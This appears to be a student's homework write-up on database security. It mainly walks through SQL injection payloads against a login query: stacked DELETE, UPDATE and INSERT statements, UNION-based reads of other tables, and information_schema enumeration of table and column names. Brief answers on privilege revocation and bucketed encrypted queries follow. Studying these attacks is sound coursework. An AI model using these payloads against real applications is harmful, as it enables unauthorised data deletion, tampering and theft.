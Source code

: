 # CS253 HW3

## Question1
`email = ?`

`passowrd = ?`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx');
```
**Deleting data**:

Assume we want to delete the data whose email='noob', then we let

`email = xxx@xxx.xxx`

`password = xxx'); DELETE FROM users WHERE email='noob'; #`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx'); DELETE FROM users WHERE email='noob'; #');
``` 
**Updating data**: 

Assume we want to update the password of user whose email='noob' to '114514', then we let

`email = xxx@xxx.xxx`

`password = xxx'); UPDATE users SET password=md5('114514') WHERE email='email';#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx'); UPDATE users SET password=md5('114514') WHERE email='email';#');
``` 
**Inserting data**: 

Assume we want to insert the data whose email='noob'&password='114514', then we let

`email = xxx@xxx.xxx`

`password = xxx'); INSERT INTO users (email, password) values ('noob',md5('114514')); #`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx'); INSERT INTO users (email, password) values ('noob',md5('114514')); #');
``` 

**Query another table**:

Assume the name of another table is `department` and we want to get all the data of it, then we let

`email = xxx@xxx.xxx`

`password = xxx') UNION select * FROM department;#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx') UNION select * FROM department;#');
``` 

**Unknown table name**:

Firstly, we extract the table name from `information_schema` ,which is a mysql built-in database. We let

`email = xxx@xxx.xxx`

`password = xxx') UNION SELECT 1,2,table_name FROM information_schema.tables WHERE table_schema=database();#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx') UNION SELECT 1,2,table_name FROM information_schema.tables WHERE table_schema=database();#');
```
Secondly, we extract the column name of target table `department`. We let

`email = xxx@xxx.xxx`

`password = xxx') UNION SELECT 1,2,column_name FROM information_schema.columns WHERE table_name="department";#`
```SQL
SELECT * FROM users WHERE email = 'xxx@xxx.xxx' AND password = md5('xxx') UNION SELECT 1,2,column_name FROM information_schema.columns WHERE table_name="department";#');
```
Now we can repeat the operation in **Question: Query another table** and extract all the data we want.

## Question2
`Delete` must be revoked.

## Question3
`75k` belongs to `70-80k`, which is mapped to `4`. Thus we decrypt all the data in `4` and filter out data $\leq$ `75k`. Finally we put these data and data in `5` and `6` together.
